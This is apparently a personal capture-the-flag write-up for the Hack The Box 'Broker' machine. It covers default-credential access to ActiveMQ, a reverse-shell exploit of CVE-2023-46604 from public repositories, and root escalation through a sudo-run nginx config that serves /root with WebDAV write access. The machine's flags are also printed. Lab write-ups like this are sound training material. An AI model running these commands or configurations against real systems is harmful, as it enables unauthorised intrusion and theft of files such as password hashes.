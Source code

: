 ```yaml
---
Title: Broker HTB Machine
Year: "2023"
Difficulty: Easy
share: "true"
---
```


- [[#Reconnaissance|Reconnaissance]]
- [[#Weaponisation|Weaponisation]]
- [[#Delivery|Delivery]]
- [[#Exploitation / Installation|Exploitation / Installation]]
- [[#Actions on Objective|Actions on Objective]]
## Reconnaissance

- Conducted an NMAP Scan with
	- `udo nmap -sV -sC -oA initial --disable-arp-ping -Pn -p- --min-rate 5000 10.10.11.243`
- Multiple services were found
	- 22 - SSH - OpenSSH 8.9 p 1 Ubuntu 3 ubuntu 0.4 (Ubuntu Linux; protocol 2.0)
	- 80 - HTTP - nginx 1.18.0 (Ubuntu)
	- 1337 - HTTP - nginx 1.18.0 (Ubuntu)
	- 1342 - HTTP - nginx 1.18.0 (Ubuntu)
	- 1338 - HTTP - nginx 1.18.0 (Ubuntu)
	- 1342 - HTTP - nginx 1.18.0 (Ubuntu)
	- 1883 - MQTT - mqtt-subscribe
	- 4444 - HTTP - nginx 1.18.0 (Ubuntu)
	- 5672 - amqp
	- 8161 - http - Jetty 9.4.39. V 20210325
	- 13337 - HTTP - nginx 1.18.0 (Ubuntu)
	- 13338 - HTTP - nginx 1.18.0 (Ubuntu)
	- 37913 - tcpwrapped
	- 61613 - stomp - Apache ActiveMQ
	- 61614 - HTTP - Jetty 9.4.39. V 20210325
	- 61616 - apachemq - ActiveMQ OpenWire transport
- Browsing to the default webpage you are presented with a login prompt
- I tried a couple of different common username/password combos and admin: admin  worked
- That gets you into the ActiveMQ Manage Page
- Clicking on Manage AcitveMQ gives you a bit more information
	- Broker
		- Name: localhost
		- Version: 5.15.15
		- ID: ID: broker-34937-1701941373037-0:1
- For good measure I ran gobuster against the server to enumerate any VHOSTS and any Directories and nothing was found.

## Weaponisation

- Googling for CVE's against ActiveMQ turned up a number. 
- One that matched the version and provided the possibility of an RCE to get a reverse shell was CVE-2023-46604
- I found a Github repository that had a complete exploit that would send a meterpreter payload however, the page seems to be down. 
- So I found another repository that established a psuedo shell with limited functionality. 
	- https://github.com/duck-sec/CVE-2023-46604-ActiveMQ-RCE-pseudoshell
- I cloned this repo and ran the following command:
	- `python3 exploit.py -i 10.10.11.243 -si 10.10.14.179 -sp 4444`
- This popped a shell with user level access (activemq)
- This shell was very limited and difficult to work with so I did some more googling and found this one that delivers a payload in the form of an XML file. 
	- https://github.com/evkl1d/CVE-2023-46604
- Modifying the poc. Xml file and starting a listener I was able to pop a better shell
- I then upgraded the shell using
	- `python3 -c 'import pty; pty.spawn("/bin/bash")'`
## Delivery

- User flag was recovered: `e2b04be994fa8f23c6f99a331bea97da`
- From here I did some more Enumeration and discovered that the current user **activemq** can run /usr/sbin/nginx with sudo without a password. 
	- Nginx Version: 1.18.1
- I'm not familiar with nginx so I looked around for possible ways to run a shell script from nginx with not much luck. 

## Exploitation / Installation

- Looking at the problem I think it would require me to run an Nginx server with a custom configuration to do something. 
- I switched the CTF to guided mode to see if it would steer me in the right direction and it pointed me towards using Webdav methods.
- After a little stuffing around with Nginx configuration files I ended up with the following:

```
daemon            off;
worker_processes  2;
user              root;

events {
    use           epoll;
    worker_connections  128;
}


http {
    server_tokens off;
    charset       utf-8;

    server {
       listen 8080 default_server;
       root /root/;
       index index.html index.htm index.nginx-debian.html;
       server_name _;

       location / {
           dav_methods PUT DELETE MKCOL COPY MOVE;
           dav_access user:rw group:rw all:rw;

           client_max_body_size 0;
           create_full_put_path on;
           client_body_temp_path /tmp/;
       }
    }
}
```
- I then ran nginx with 
	- `sudo /usr/sbin/nginx -c /tmp/nginx.conf` and that started a NGINX server on port 8080.

## Actions on Objective

- I then used wget to grab the root. Txt file in /root. 
- I could of used this to grab the shadow file or anything else that I want from the server. 
- Root Flag Recovered
	- `99624d9f35f925623d44ba1ede30d1d4`